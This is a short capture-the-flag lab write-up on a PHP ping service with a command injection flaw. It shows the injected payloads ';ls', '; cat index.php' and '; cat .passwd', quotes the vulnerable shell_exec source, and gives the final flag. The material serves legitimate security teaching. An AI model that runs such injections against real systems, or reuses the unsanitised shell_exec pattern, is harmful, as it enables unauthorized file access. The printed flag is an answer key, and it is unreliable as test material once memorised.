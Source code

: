 # PHP-command injection


- This is a basic command injection as other labs for beginner to know how command injection works
- Firstly, i try to input the IP 8.8.8.8

```
PING 8.8.8.8 (8.8.8.8) 56(84) bytes of data.
64 bytes from 8.8.8.8: icmp_seq=1 ttl=117 time=2.13 ms
64 bytes from 8.8.8.8: icmp_seq=2 ttl=117 time=1.91 ms
64 bytes from 8.8.8.8: icmp_seq=3 ttl=117 time=1.95 ms

--- 8.8.8.8 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2003ms
rtt min/avg/max/mdev = 1.906/1.995/2.132/0.098 ms
//[?] SO it ping to 8.8.8.8 right !
```

[?] Now we know the command is ping, but how to run 2 commands on the terminal ?

- We can use ‘;’ , & , ||
- For more detail, i have writen in cmd injection of cyber jutsu course

[*] Testing time

- i use the payload: ;ls 
`index.php`
- Now we know this dir have file source code index.php:
- I want to show all contents in index.php: ; cat index.php

```
<html>
<head>
<title>Ping Service</title>
</head>
<body>
<form method="POST" action="index.php">
        <input type="text" name="ip" placeholder="127.0.0.1">
        <input type="submit">
</form>
<pre>
<?php 
//[*] var flag gets contens from . passwd right !
$flag = "".file_get_contents(".passwd")."";
if(isset($_POST["ip"]) && !empty($_POST["ip"])){
        $response = shell_exec("timeout -k 5 5 bash -c 'ping -c 3 ".$_POST["ip"]."'");
        echo $response;
}
?>
</pre>
</body>
</html>
```

- The payload: ; cat .passwd

**Final result:** S3rv1ceP1n9Sup3rS3cure
